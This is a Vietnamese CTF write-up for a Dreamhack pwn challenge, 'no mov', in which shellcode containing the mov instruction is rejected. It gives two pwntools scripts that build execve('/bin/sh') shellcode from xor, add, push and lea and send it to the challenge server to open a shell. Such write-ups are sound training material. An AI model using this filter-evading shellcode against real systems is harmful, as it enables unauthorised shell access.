 --------------

16 . no mov
------

full giáp : 

![image](https://hackmd.io/_uploads/B1_qb8OX1e.png)

- nôm na bài này là dùng shellcode tuy nhiên nó bị filter lệnh mov → shellcode không dùng move
- vòng lặp dưới đây cho ta thấy được rằng nó sẽ so sánh từng byte với từng bytes mov , nếu đúng thì ctrinh sập

![image](https://hackmd.io/_uploads/B1OsZUOX1x.png)


ở đây ta có thể dùng các lệnh khác như xchg , vòng lặp ,xor , leak , add

script 

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./main',checksec=False)

p = process(exe.path)
p = remote('host3.dreamhack.games', 17395)
shellcode =asm('''
               push rax
               add rbx,1852400175    
               push rbx
               add rsp , 0xc
               xor rbx,rbx
               add rbx,6845231
               push rbx
               lea rdi,[rsp-0x4]
               add rax,0x3b
               syscall
               ''',arch='amd64'
        )
p.sendafter(b' > ',shellcode)
p.interactive()
```

tham khảo writeup : 
```
from pwn import *

context.arch = "amd64"

r = remote("host3.dreamhack.games", 16147)

shellcode = asm('''
xor rax, rax
add rax, 0x3b
xor rbx, rbx
add rbx, 0x68732f
shl rbx, 32
or rbx, 0x6e69622f
push rbx
xor rdi, rdi
add rdi, rsp
xor rsi, rsi
xor rdx, rdx
syscall
''')
```